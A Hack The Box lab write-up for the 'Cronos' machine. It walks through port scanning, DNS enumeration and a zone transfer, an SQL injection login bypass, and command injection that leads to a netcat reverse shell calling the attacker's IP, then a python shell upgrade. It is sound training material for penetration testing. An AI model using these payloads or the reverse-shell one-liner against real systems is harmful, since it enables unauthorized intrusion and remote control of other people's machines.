

# hacking cronos - htb

CronOS is a fun linux box on [htb](https://www.hackthebox.com/) which lets us practice enumeration on a linux machine and learn more about exploiting misconfigured scheduled tasks :hourglass_flowing_sand: - aka cronjobs.

## port scanning

As usual, we start with an nmap scan of the target machine.

```bash
ports13=$(sudo nmap -n -Pn -p- --min-rate=250 -sS --open 10.10.10.13 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

echo $ports13 > p13.txt

cat p13.txt
```

We find that ports 22, 53 and 80 are open.


Seeing port 53 over tcp is interesting since port 53 over udp is used to make dns inquiries and udp is the normal protocol used for dns.

dns uses tcp port 53 for zone transfers and it is always useful to enumerate dns to widen attack surfaces - for example find subdomains to attack.

> [!TIP]
> Seeing DNS using TCP port 53 suggests that we might be able to perform a zone transfer

We use nmap to perform a more thorough scan of the open tcp ports.

```bash
sudo nmap -Pn -p$ports13 -sV -A -oA ports13 10.10.10.13
```


We could just jump right in and attempt a zone transfer, but we can try to manually enumerate dns first. Our intention is to manually find subdomains.

## manual dns enumeration

I started by trying a *reverse dns lookup* using the dig tool. When it comes to dns records, some will have a *PTR* record which is where the *reverse dns request* looks.

The PTR record just maps an ipv4 address to a domain name so we can find the domain name by specifying the ipv4 address. This is the opposite of how dns requests are usually made - usually a domain is specified and the ipv4 address is returned from the A record.

In the following command, the @ symbol lets us specify the ip address of the dns server we want to use - in this case it is the targetted machine itself. The -x flag indicates that we want to run a *reverse* lookup for the specified ip address.

```bash
sudo dig @10.10.10.13 -x 10.10.10.13 +nocookie
```


The next step was to brute-force possible subdomains using a shell script. We can do this as in this example - whereby we use strings and try them as subdomain names - or we can do it using ip addresses along with reverse lookups. I did not try this technique on this box as I got an interesting result using the first method.

```bash
for name in $(cat /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt); do host $name.cronos.htb 10.10.10.13 -W 2; done | grep 'has address'
```


As can be seen, we find a subdomain called *admin* which immediately gets our attention!

I was impatient to have a look at the admin subdomain - for obvious reasons - so I terminated the script early and tried a zone transfer to see if it would be possible and if so if I had missed anything.

We find that we can perform a zone transfer, but we find nothing new - our manual enumeration found all that it needed to.

```bash
sudo dig @10.10.10.13 -t AXFR cronos.htb +nocookie
```

> [!NOTE]
> In the picture my first command forgot to specify the DNS server - the above command (should!) work


Okay - it's time to have a look at that admin subdomain :smiley:

## authentication bypass


Seeing a login form, I immediately thought about trying a sqli to bypass authentication. Before trying this, I did try a few generic credentials such as *admin:admin*

> [!TIP]
> It is always worth trying generic credentials or researching default ones for the target service

The generic creds did not work, so I fired up burpsuite to start testing the form for sqli vulnerabilities.

I started by trying a simple authentication bypass on the password field - this did not work so I tried again but on the username field - this was successful.

> [!IMPORTANT]
> Test *every* input field for sqli and xss vulns

`username=admin'+or+1=1+--+-`

The sqli attack works and we then just need to follow the redirection to land at a welcome.php page.




The welcome.php page is interesting, too :thinking:

## command injection and a reverse shell

The welcome page shows a tool which appears to execute commands on the system - *command injection* seems a very likely next step.

Using the *repeater* tool in burpsuite we find that when we add `;` after the *host* parameter we can follow it with system commands which get executed :smile:

`host=8.8.8.8;whoami`


This is a simple *command injection* vulnerability and we can now try to find a way to exploit it - getting a reverse shell to work would be nice :thumbsup:

I found a netcat reverse shell worked.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 4444 >/tmp/f
```

I used this command in the repeater tool and *url encoded* it by highlighting it and then pressing `CTRL + U` before sending it.

> [!NOTE]
> Remember to start a netcat listener on your attacking machine before you send the above command `sudo nc -nlvp 4444` :roll_eyes:


The shell we get is (unsurprisingly) running under the *www-data* user which has low privileges.


Before continuing, it makes sense to upgrade our shell. There are different ways to do this, but if *python* is installed on the victim system then we can use it to upgrade.

```bash
python --version

python -c 'import pty;pty.spawn("/bin/bash");'
```

Now we have a (slightly) more stable shell, it is time to get enumerating the box :detective: so we can find ways to elevate our privileges :arrow_up:

